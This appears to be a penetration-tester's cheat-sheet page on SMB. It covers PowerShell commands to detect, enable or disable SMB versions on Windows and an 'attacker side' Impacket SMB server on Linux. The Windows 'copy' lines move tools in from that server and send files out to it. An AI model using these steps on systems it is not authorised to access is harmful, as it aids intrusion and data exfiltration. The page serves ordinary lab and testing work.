 # SMB

## SMB between linux and windows

{% embed url="https://docs.microsoft.com/en-us/windows-server/storage/file-server/troubleshoot/detect-enable-and-disable-smbv1-v2-v3" %}

## SMB v1 (client and server)

detect:

```
Get-WindowsOptionalFeature -Online -FeatureName smb1protocol
```

Disable:

```
Disable-WindowsOptionalFeature -Online -FeatureName smb1protocol
```

Enable (reboot required):

```
Enable-WindowsOptionalFeature -Online -FeatureName smb1protocol
Enable-WindowsOptionalFeature -Online -FeatureName "SMB1Protocol-Client" -All
```

## SMB v2/v3 Protocol

Detect:

```
Get-SmbServerConfiguration | Select EnableSMB2Protocol
```

Disable:

```
Set-SmbServerConfiguration -EnableSMB2Protocol $false
```

Enable:

```
Set-SmbServerConfiguration -EnableSMB2Protocol $true
```

## SMB Server on Linux (attacker side)

### Using Impacket

the format is: impacket-smbserver \[share name to use] \[share directory path]

```
# python3 /usr/share/doc/python3-impacket/examples/smbserver.py tools .
# python /usr/share/doc/python-impacket/examples/smbserver.py tools .
```

#### to view available shares from windows

```
net view \\192.168.56.1
```

#### to view files available in a share from windows

```
dir \\192.168.56.1\share_name
```

#### To move files to Windows:

```
copy \\IP\share_name\file_name  path_to_save
> copy \\192.168.1.11\tools\file.ext file.ext
```

#### To copy files from to linux smb server:

```
> copy file.ext \\192.168.1.11\tools\file.ext
```
